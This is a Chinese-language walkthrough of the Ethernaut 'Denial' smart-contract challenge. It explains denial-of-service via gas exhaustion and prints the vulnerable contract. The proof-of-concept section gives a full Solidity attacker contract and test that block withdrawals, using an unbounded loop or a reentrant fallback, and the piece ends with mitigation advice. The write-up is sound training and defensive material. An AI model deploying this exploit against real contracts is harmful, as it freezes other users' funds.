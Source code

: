 # Denial
我们将通过DoS攻击来解决这道题，在正式开始之前，我们首先了解什么是智能合约Denial of Service攻击。

## Denial of Service (DoS)

### 1. 定义

> 恶意用户或者恶意合约利用合约中的漏洞或者设计不当的地方，来耗尽合约的资源，导致合约无法正常执行或者停止响应。
> 

## 2. 探寻原因

智能合约 DoS 攻击可能包括以下形式：

1. **Gas Exhaustion**：攻击者创建一个高度复杂的智能合约或者循环调用合约中的操作，消耗了大量的燃气（gas），从而使得交易无法完成或者执行非常缓慢。
2. **Condition Attack**：触发合约中的某个漏洞让进入条件崩溃，无法再执行，常见的是利用智能合约中的条件判断语句（如 require、assert 等）的漏洞，使得条件判断无法达到预期的结果，从而导致合约无法正常执行下去。
3. **State Bloat**：攻击者通过大量创建无用或者恶意的状态对象，如大量的合约、用户、或者数据项，来使得合约状态变得庞大，从而影响合约的存储和处理能力，导致合约执行速度下降或者无法正常运行，很可能导致**Gas Exhaustion。**
   
## 合约分析
- 攻击类型：Denial of Service (DoS)
- 目标：阻止其他人从 fund 中 withdraw 以太币，即要阻止 withdraw 函数的运行。
- 平台网址：https://ethernaut.zeppelin.solutions/
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

这个合约容易理解，就是将合约里的收益的 1% 发放给 `partner`，1% 发放给`owner`。

在这我们关注 `withdraw`函数，

- 首先注意该函数并没有设置任何限制条件，任何人都可以调用该函数；
- 每次`withdraw`将合约里的收益的 1% 发放给 `partner`，1% 发放给`owner`，并更新 `partner` 领取收益的记录；
- 其次该函数中使用了`call`函数，该函数是`solidity`中一个低级函数，它允许我们执行一个外部合约的函数，并没有检查返回值，如果外部合约的函数执行失败，该函数会继续执行下去；
- 通过 transfer 函数，将 1%的余额转移到合约的所有者地址：transfer 函数是一个高级别的转账函数，会自动抛出异常（revert），如果转账失败，从而保护合约免受恶意合约的攻击。
- 更新上一次执行提取函数的时间和余额：记录最后一次执行提取操作的时间和金额，以便跟踪提取操作的历史。

```solidity
// withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }
```

1. 很容易能够注意到 `partner.call{value:amountToSend}("")`，如果通过对合约进行转账会调用`fallback`或者`receive`函数来收款，再看，任何人可以通过`setWithdrawPartner`函数设置 partner，这是我们可以利用攻击的点；
2. `partner.call{value:amountToSend}("")`在对未知合约进行外部调用时没有指定固定的 gas 量，仍然可能会产生 DoS 攻击，[call-stack-depth](https://docs.soliditylang.org/en/latest/security-considerations.html#call-stack-depth) 可以看到，外部调用在发起时最多可以使用当前可用 gas 的 63/64，当剩余 1/64 的 gas 无法满足，`withdraw` 就会失败。

## Proof of Concept

根据以上分析，完整的 PoC 代码如下：

```solidity
interface IDenial {
    function withdraw() external;
    function setWithdrawPartner(address _partner) external;
}

contract Solution {
    address public contractAddress;
    address public owner;

    constructor(address _contractAddress) {
        contractAddress = _contractAddress;
        owner =  msg.sender;
    }

    function exploit() internal {
        uint256 sum;
        for (uint256 index = 0; index < type(uint256).max; index++) {
            sum += 1;
        }
    }

    function attack() public {
        IDenial(contractAddress).setWithdrawPartner(address(this));
    }

    function withdraw() external {
        require(owner ==  msg.sender, "Not owner");
        payable(owner).transfer(address(this).balance);
    }

    fallback() external payable {
        exploit();
        // contractAddress.call(abi.encodeWithSignature("withdraw()"));
    }
}

contract DenialTest is BaseTest {

    Solution public solution;

    function setUp() public override {
        super.setUp();
    }

    function test_Attack() public {

        solution = new Solution(contractAddress);
        solution.attack();

        uint256 beforeBalance = contractAddress.balance;

        contractAddress.call{gas: 10**6 }(abi.encodeWithSignature("withdraw()"));

        uint256 afterBalance = contractAddress.balance;

        require(beforeBalance == afterBalance, "Not successful");
    }
}
```

1. **暴力循环耗尽gas** 我们通过`Denial(contractAddress).setWithdrawPartner`将攻击合约设置为`partner`，攻击合约的`fallback`函数将调用`Denial(contractAddress).withdraw`，当调用`Denial(contractAddress).withdraw`，进入 partner 合约的收款函数后又调用`exploit`函数(如下)通过一个庞大的循环将 63/64 gas 耗尽，剩余的 1/64 gas 满足不了后续的操作，withdraw 函数失败。

```solidity
    function exploit() internal {
        uint256 sum;
        for (uint256 index = 0; index < type(uint256).max; index++) {
            sum += 1;
        }
    }
```

2. **Reentrancy耗尽gas** 也可以选择通过重入攻击来消耗 gas，Partner 的 `fallback`回调`Denial(contractAddress).withdraw`函数，从而导致递归调用，重复进入 withdraw 将 63/64 gas 耗尽，剩余的 1/64 gas 满足不了后续的操作，withdraw 函数失败。

```solidity
    fallback() external payable {
        contractAddress.call(abi.encodeWithSignature("withdraw()"));
    }
```

## 安全建议

1. 特殊函数应设定权限，例如`Denial(contractAddress).setWithdrawPartner()`，这个至关重要，尤其涉及资金；
2. **重入** 通常我们遵循[检查-影响-交互](https://docs.soliditylang.org/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern)的模式，并采取适当的条件检查、使用适当的锁定机制以及限制外部调用来避免重入攻击。尤其需要注意，在某些情况下，即使在函数末尾进行多个外部调用，也可能导致类似的问题。例如，在函数末尾进行多个外部调用时，如果某个外部调用触发了另一个合约中的重入攻击，那么这种攻击仍然可能发生。在这种情况下，即使合约自身符合 CEI 模式和其他最佳实践，也无法完全防止外部合约中的恶意行为；
3. **DoS** 上述提过，外部调用在发起时最多可以使用当前可用 gas 的 63/64。因此，根据完成交易所需的 gas 量，可以使用具有足够高 gas 的交易来缓解这种特定的攻击。这确保即使大部分 gas 被消耗，仍然有足够的剩余 gas 完成父调用中的剩余操作码。另外需要注意，使用适当的条件检查，设定合约操作的边界条件来避免循环和复杂计算，限制外部调用以避免重入攻击。
